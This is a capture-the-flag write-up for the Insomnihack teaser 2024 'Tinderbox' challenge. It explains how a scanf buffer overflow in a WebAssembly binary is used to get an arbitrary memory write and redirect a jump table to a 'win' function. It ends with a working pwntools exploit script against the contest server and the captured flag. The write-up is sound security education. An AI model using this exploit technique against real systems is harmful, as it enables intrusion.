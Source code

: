 ```yaml
---
title: 'Insomnihack teaser 2024'
challenge: 'Tinderbox'
date: 2024-01-22T00:00:00+01:00
author: 'v0lp3 & SimozB & Bonfra'
description: 'Writeup for challenge TinderBox of Insomnihack teaser 2024' 
cover: '/img/Insomnihack_teaser_2024/logo.png'
tags: ['pwn', 'misc']
draft: false
---
```


```
My friend is not a great developer but he insisted to work on a prototype in C. He said he compiled the program to WebAssembly and "it is super secure" but I am doubtful.

nc tinderbox.insomnihack.ch 7171

Note: the server runs the module using `Wasmtime 16.0.0` and the runtime has access to the current directory.
```

### Quick look

The challenge attachment is a wasm file as confirmed by the `file` command.

```bash
$ file bin.wasm
bin.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

We can run this binary with the [Wasmtime](https://github.com/bytecodealliance/wasmtime) runtime:

```bash
$ wasmtime bin.wasm
Tell me your name:
```

We can provide arbitrary length name but no visible crash happens in any case. After we enter a string a small menu is displayed:

```bash
$ wasmtime bin.wasm
Tell me your name: naslab
1 - I made a typo in my name!
2 - Do some math for me.
3 - Tell me a joke!
```

The behavior of the options is as follows:

- (1) allows you to change the first letter of the name
- (2) take a number as input and calculate **37 - your input**
- (3) print a text

We can use the [ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin) to disassemble it in Ghidra.

### Vulnerability

{{< figure src="/img/Insomnihack_teaser_2024/get_name.png" position="center" caption="Get name function" captionPosition="left">}}

After disassembling it in Ghidra we immediately notice that the function `get_name` uses `scanf` with the format string `%s`. It's clearly a buffer overflow.
We can see that there is a function called `win` that we need to call to print the flag and that is referenced by a function table as shown below.

{{< figure src="/img/Insomnihack_teaser_2024/jump_table.png" position="center" caption="Function table" captionPosition="left">}}

{{< figure src="/img/Insomnihack_teaser_2024/setValues.png" position="center" caption="setValues function" captionPosition="left">}}

Some minimal refactoring later we found that the `setValues` function (traceback: `setValues` <= `fixTypo` <=  `menu` <= `__original_main`) can be abused to get arbitrary write primitive on the memory and get the flag. Here is why:

- The buffer where `name` is stored is allocated in the `__original_main` function, so the buffer overflow occurs in that function context
- The `__original_main` function defines a `jump_table_offsets` which contains some offsets that are used to call the correct function in the function table shown above.
- The `__original_main` function calls the `menu` function and passes `name`, `jump_table_offsets` pointers and a variable `name_offset` containing **0**. This offset is used in the `setValues` function as a reference to the first character of the `name` buffer. In short, it is the offset of the character modified by `fixTypo`.

{{< figure src="/img/Insomnihack_teaser_2024/original_main.png" position="center" caption="original_main function" captionPosition="left">}}

We can't use the buffer overflow directly to overwrite `jump_table_offsets` because the stack layout is the following:
*Note: in this stack representation the numbers in square bracket are refered to the size of the array.*

```
+________________________+
|                        |
|  jump_table_offsets[4] |
|________________________|
|                        |
|        name[16]        |
|________________________|
|                        |
|       name_offset      |
|________________________|
|                        |
|        something       |
|________________________|
|                        |
|           ret          |
+________________________+

```

We can exploit this to change the values of `name_offset` to negative value, and gain arbitrary memory write with `setValues`functions. Basically we only need to modify `jump_tables_offset[1]` from value **1** to **2**, so we'll call `win` function when we run third option in the menu.

{{< figure src="/img/Insomnihack_teaser_2024/menu.png" position="center" caption="menu function" captionPosition="left">}}

After some trial and errors we found out that the right offset to modify `jump_tables_offset[1]` is **-12**. 

Here is the script used to get the flag:

```python
from pwn import *

p = remote("tinderbox.insomnihack.ch", 7171)
p.sendlineafter("name:", b"A" * 16 + p32(-12, signed=True))
p.sendlineafter("joke!", "1")
p.sendlineafter("there", "2")
p.sendlineafter("joke!", "3")

p.interactive()
```

> INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}
